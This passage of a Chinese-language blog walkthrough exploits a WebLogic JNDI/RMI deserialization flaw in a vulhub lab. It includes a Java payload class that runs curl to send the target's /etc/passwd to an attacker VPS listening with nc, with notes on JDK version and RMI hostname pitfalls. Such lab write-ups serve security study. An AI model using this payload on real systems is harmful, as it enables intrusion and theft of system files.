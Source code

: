```
```
同样的，修改rmi地址为我们自己的服务器。

由于vulhub搭建的Weblogic环境是基于jdk 1.6.0_45版本的，所以我们还得使用jdk 1.6重新编译项目，服务端同样也是

再由于目标运行在linux上，无法弹计算器，所以我们还得改Exploit类的命令部分，改成可以回显的或者反弹shell的类，这里仅供参考
```
public class Rev {
    public Rev(){
        try{
            Runtime.getRuntime().exec("curl -F value=@/etc/passwd remote_server:3388");
        }catch(Exception e){
            e.printStackTrace();
        }
    }
    public static void main(String[] argv){
        Rev e = new Rev();
    }
}
```
VPS上nc监听3388端口，执行成功的话会接收到目标主机的passwd信息

同样的，先开启JNDI和http服务，还得再监听3388，然后发送PoC

![rev](https://ob5vt1k7f.qnssl.com/fjakh)
成功接收到信息，利用成功。




### 0x05 总结
简单总结一下这个利用方式，有几个需要注意的点

- java版本问题。编译恶意类的java版本，生成jar包的版本，目标运行的java版本需要一致，这在一定程度上限制了通用性

	再一个，java版本不能高于7，因为在jdk1.8中做了限制，需要设置`trustURLCodebase`为`true`

- 需要指定`rmi.server.hostname`，在这里坑了好久，一开始以为是ipv6的问题，因为在vps上绑定jndi服务后监听的是tcp6，在github上也有人提了这个问题；后来发现本地执行客户端后与远程主机是建立连接的，却卡在了这个连接上，没有消息通信，说明tcp通道是可以建立的，应该是别的地方有问题。执行后jndi服务器去找了127.0.0.1，一开始以为是本地地址，测试了一番之后发现原来是vps的127.0.0.1，说明已经执行到远程类的部分了，只不过解析地址的时候出现了错误，后来在[stackoverflow](https://stackoverflow.com/questions/15685686/java-rmi-connectexception-connection-refused-to-host-127-0-1-1)和[这里](http://kbase.zohocorp.com/kbase/Web_NMS/Server_Framework/file_112641.html)找到了答案。


参考：
https://www.one-tab.com/page/rruKb03ATCuYb59FcLA2HQ

<script>pangu.spacingPage();</script>







